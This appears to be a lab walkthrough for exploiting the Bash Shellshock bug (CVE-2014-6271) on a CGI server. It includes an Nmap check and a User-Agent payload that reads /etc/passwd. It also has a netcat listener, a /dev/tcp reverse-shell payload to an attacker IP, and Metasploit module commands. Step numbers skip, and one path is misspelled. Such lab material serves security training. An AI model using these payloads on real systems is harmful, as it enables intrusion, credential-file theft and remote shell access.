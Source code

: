 # Bash CVE-2014-6271 Vulnerability (Shellshock)

![image1](/Cgi/image1.jpg)

_A CGI script is running on the target server._

__Step 1: Use the Nmap NSE script to check if the server is vulnerable to shellshock attack.__

__Command:__

- __`nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local`__

![image2](/Cgi/image2.jpg)



__Step 2: Modify the User-Agent and inject the malicious payload.__

__Payload:__

- __`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`__


![image4](/Cgi/image4.jpg)


__Click on the Send button.__

![image5](/Cgi/image5.jpg)

__Step 6: Start netcat__

command:

__`nc -nvlp 1234`__

__Step 7: use the below payload in user agent__
command:
- __`() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<yourip>/1234 0>&1'`__

![image10](/Cgi/image10.png)

__you will get reverse shell__




# Method 2 using metasploit framework

__Step 1: Start the `msfconsole`__
__command:__
- __`service postgresql start & msfconsole`__

__Step 2: use below exploit__
__command:__
 - __`use exploit/multi/http/apache_mod_cgi_bash_env_exec`__

__Step 3: set the rhost and TARGETURL__
__command:__
  - __`set RHOSTS <target ip>`__
  - __`set TARGETURI /gettime.cig`__


